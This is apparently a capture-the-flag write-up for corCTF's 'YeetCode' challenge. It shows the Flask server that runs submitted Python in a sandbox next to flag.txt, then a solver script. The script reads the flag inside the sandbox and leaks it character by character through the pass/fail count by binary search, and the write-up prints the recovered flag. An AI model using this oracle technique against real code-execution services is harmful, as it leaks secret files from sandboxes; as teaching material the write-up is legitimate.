 ```text
Brush up on your coding skills and ace your next interview with YeetCode! Flag is at ./flag.txt
https://yeetcode.be.ax
```
We're provided all the source and a docker file but I've just included the main server file for brevity. 
```python
from flask import Flask, render_template, request, session
import random, epicbox, os
# docker pull 
epicbox.configure(
    profiles=[
        epicbox.Profile('python', 'python:3.9.6-alpine')
    ]
)
app = Flask(__name__)
app.secret_key = os.urandom(16)
flag = open('flag.txt').read()
@app.route('/')
def yeet():
    return render_template('yeet.html')
@app.route('/yeet')
def yeetyeet():
    return render_template('yeetyeet.html')
@app.route('/yeetyeet', methods=['POST'])
def yeetyeetyeet():
    if 'run' in session and session['run']:
        return {'error': True, 'msg': 'You already have code running, please wait for it to finish.'}
    session['run'] = True
    code = request.data
    tests = [(2, 3, 5), (5, 7, 12)]
    for _ in range(8):
        a, b = random.randint(1, 100), random.randint(1, 100)
        tests.append((a, b, a + b))
    # print(code)
    cmd = 'from code import f\n'
    outputs = []
    for case in tests:
        a, b, ans = case
        cmd += f'print(f({a}, {b}))\n'
        outputs.append(str(ans))
    files = [{'name': 'flag.txt', 'content': flag.encode()}, {'name': 'code.py', 'content': code}]
    limits = {'cputime': 1, 'memory': 16}
    result = epicbox.run('python', command='python3', stdin=cmd, files=files, limits=limits)
    if result['exit_code'] != 0:
        session['run'] = False
        return {'error': True, 'msg': 'Oops! Your code has an error in it. Please try again.'}
    actual = result['stdout'].decode().strip().split('\n')
    print(actual)
    print(outputs)
    passes = 0
    fails = 0
    for i in range(len(outputs)):
        if outputs[i] == actual[i]:
            passes += 1
        else:
            fails += 1
    session['run'] = False
    return {'error': False, 'p': passes, 'f': fails}
if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000)
```
We provided code to run in a sandbox which has access to a flag file, but we don't have access to any response except test case passes and fails. I have no idea if this sandbox allows for network and honestly I didn't think to check so instead you get a good ol binary search (the code for which i stole off the internet bc lazy). The function which is supposed to take two args and return the sum of them, so it's trivial to make it pass when needed and then we just need a condition for our binary search. 
```python
import requests
from bisect import bisect_left
# corctf{1m4g1n3_cp_g0lf_6a318dfe}
def get_index(idx, val):
	code = """
ch = open("flag.txt","r").read()[%s]
def f(a, b):
	if ord(ch) <= %s:
		return a + b
	else: 
		return False
	""" % (idx, val)
	headers = {
		'Content-Type': 'text/plain;charset=UTF-8'
	}
	url = "https://yeetcode.be.ax/yeetyeet"
	r = requests.post(url,headers=headers, data = code)
	return r.json()["p"] != 10
def generic_bisect(idx, lo=0, hi=None):
    if lo < 0:
        raise ValueError('lo must be non-negative')
    if hi is None:
        hi = 127
    while lo < hi:
        mid = (lo+hi)//2
        if get_index(idx, mid) == 2: return mid
        elif get_index(idx, mid) == 1: lo = mid+1
        else: hi = mid
    return lo
flag = ""
while True:
	flag += chr(generic_bisect(len(flag)))
	print(flag)
```
I went off to go get dinner and came back to the flag, corctf{1m4g1n3_cp_g0lf_6a318dfe}